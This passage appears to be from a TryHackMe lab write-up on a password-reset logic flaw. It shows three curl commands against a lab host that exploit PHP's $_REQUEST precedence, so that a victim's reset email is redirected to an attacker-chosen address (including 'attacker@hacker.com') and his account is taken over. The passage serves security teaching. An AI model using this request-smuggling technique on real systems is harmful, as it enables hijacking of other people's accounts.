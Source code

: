Curl Request 1:

{% code overflow="wrap" %}
```shell-session
user@tryhackme$ curl 'http://10.10.110.112/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
{% endcode %}

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.\


In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.\


Curl Request 2:

{% code overflow="wrap" %}
```shell-session
user@tryhackme$ curl 'http://10.10.110.112/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
{% endcode %}

<div align="center">

<img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png" alt="">

</div>

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`@customer.acmeitsupport.thm\


Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

Curl Request 2 (but using your @acmeitsupport.thm account):

{% code overflow="wrap" %}
```shell-session
user@tryhackme:~$ curl 'http://10.10.110.112/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
{% endcode %}

## Cookie tampering
